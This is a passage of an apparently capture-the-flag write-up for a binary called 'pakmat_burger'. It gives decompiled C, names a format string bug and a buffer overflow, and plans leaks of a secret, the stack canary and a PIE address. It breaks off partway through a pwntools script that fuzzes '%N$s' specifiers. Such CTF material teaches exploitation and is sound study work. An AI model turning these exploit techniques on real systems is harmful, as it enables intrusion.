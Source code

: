 ```C
    iVar1 = strcmp(local_3e,pcVar2);
    if (iVar1 == 0) {
      puts("Great! What type of burger would you like to order? ");
      __isoc99_scanf(&DAT_00102155,local_1f);
      getchar();
      printf("Please provide your phone number, we will delivered soon: ");
      pcVar2 = fgets(local_35,100,_stdin);
    }
    else {
      puts("Sorry, the secret message is incorrect. Exiting...");
      pcVar2 = (char *)0x0;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return pcVar2;
}
```

### Vulnerabilities

1. **Format String Vulnerability**: There is a format string vulnerability when you enter the name, if entered correctly we can get the secret message
2. **Buffer Overflow**: Buffer overflow vulnerability since has size local_35 10 only but it accepts 0x100

### Target Function

The `secret_order` function is our target to execute:
```C
void secret_order(void)

{
  system("cat ./flag.txt");
  return;
}
```

# Solution

Leak these values using format string attack:
- Secret Message
- CANARY
- Any PIE address (we can use this to find the base PIE address)

Using fuzz script i created
fuzz.py
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)


os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 25 values
for i in range(1,25):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$s'.format(i).encode())
```